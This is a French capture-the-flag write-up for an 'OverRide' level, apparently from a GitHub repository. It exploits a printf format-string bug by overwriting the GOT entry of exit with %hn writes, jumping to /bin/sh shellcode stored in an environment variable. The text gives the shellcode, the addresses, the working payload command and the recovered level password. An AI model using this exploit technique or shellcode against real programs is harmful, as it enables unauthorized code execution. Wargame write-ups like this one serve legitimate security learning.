 # Level 05

Nous remarquons un `fgets` suivit d'un `printf` avec notre entrée en tant que string de formattage, ce qui est une faille de sécurité facile à exploiter.

Ensuite le programme fait appel à `exit` pour nous empecher d'utiliser l'adresse de retour de la fonction.

On set une variable d'environnement contenant notre shellcode.

```bash
export S=$(python -c 'print "\x90"*100+"\x31\xC0\x31\xDB\x31\xD2\x31\xC9\xB0\x0B\x53\x68\x6E\x2F\x73\x68\x68\x2F\x2F\x62\x69\x89\xE3\xCD\x80"')
```

Nous utiliserons le flag `%hn` pour remplacer l'adresse de exit dans la Global Offset Table par celle de notre variable d'environment.

Pour cela il nous faut: 
- l'adresse d'exit dans la GOT: `0x80497e0`

```gdb
 08048370 <exit@plt>:
 8048370:       ff 25 e0 97 04 08       jmp    *0x80497e0
 8048376:       68 18 00 00 00          push   $0x18
 804837b:       e9 b0 ff ff ff          jmp    8048330 <_init+0x38>
```

- l'adresse de notre variable d'environnement : `0xffffddb9`

Nous utilisons un programme pour obtenir l'addresse de la variable:

```c
int main()
{
    printf("%p\n", getenv("S"));
}
```

- l'offset du début du buffer dans la stack pour l'utiliser avec le flag hn: `10`

```bash
level05@OverRide:~$ (python -c 'print "aaaa"+"%p."*10 ') | ./level05 
aaaa0x64.0xf7fcfac0.0xf7ec3af9.0xffffd56f.0xffffd56e.(nil).0xffffffff.0xffffd5f4.0xf7fdb000.0x61616161.
```

Nous devons ensuite découper l'adresse de notre variable en 2 parties pour l'écrire avec les hn (qui n'écrivent que 16 bits à la fois)

La partie haute est donc `0xffff` et la partie basse `0xddb9`

Notre payload sera donc:

```bash
level05@OverRide:~$ (python -c 'print "\x08\x04\x97\xe0"[::-1]+"\x08\x04\x97\xe2"[::-1] + "%"+str(0xddb9-8)+"x%10$hn%"+str(0xffff - 0xddb9)+"x%11$hn"'; echo "cat /home/users/level06/.pass") | ./level05
```

Résultat:
```
[...]
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```